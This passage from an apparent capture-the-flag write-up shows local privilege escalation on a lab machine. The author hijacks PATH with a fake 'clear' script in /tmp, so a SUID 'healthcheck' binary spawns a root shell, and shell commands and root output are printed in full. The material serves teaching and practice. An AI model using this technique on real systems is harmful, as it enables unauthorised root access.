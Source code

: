 **That being said, it's vulnerable to `PATH` variable injection!**

> `PATH` is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored. When the user run any command on the terminal, its request to the shell to search for executable files with the help of `PATH` Variable in response to commands executed by a user. The superuser also usually has `/sbin` and `/usr/sbin` entries for easily executing system administration commands. (From [https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/))

Since we have control over our environment variable, we can control which files we want to execute as `root`!

- Append a new directory (`/tmp`) to `PATH`:

```shell
[medical@localhost openemr]$ export PATH=/tmp:$PATH
[medical@localhost openemr]$ echo $PATH
/tmp:/sbin:/usr/sbin:/bin:/usr/bin:/usr/lib/qt4/bin
```

- Create fake `clear` Bash script:

```shell
[medical@localhost openemr]$ cat << EOF > /tmp/clear
> /bin/bash
> EOF
[medical@localhost openemr]$ chmod +x /tmp/clear
```

Now, when we run the vulnerable SUID binary, it'll find our `PATH` environment varible, and execute our fake `clear` Bash script.

- Run the vulnerable SUID binary:

```shell
[medical@localhost openemr]$ /usr/bin/healthcheck
[root@localhost openemr]# whoami; hostname; id; ip a
root
localhost.localdomain
uid=0(root) gid=0(root) groups=0(root),7(lp),19(floppy),22(cdrom),80(cdwriter),81(audio),82(video),83(dialout),100(users),490(polkituser),500(medical),501(fuse)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:bc:78:33 brd ff:ff:ff:ff:ff:ff
    inet 10.69.96.76/24 brd 10.69.96.255 scope global eth0
    inet6 fe80::20c:29ff:febc:7833/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted
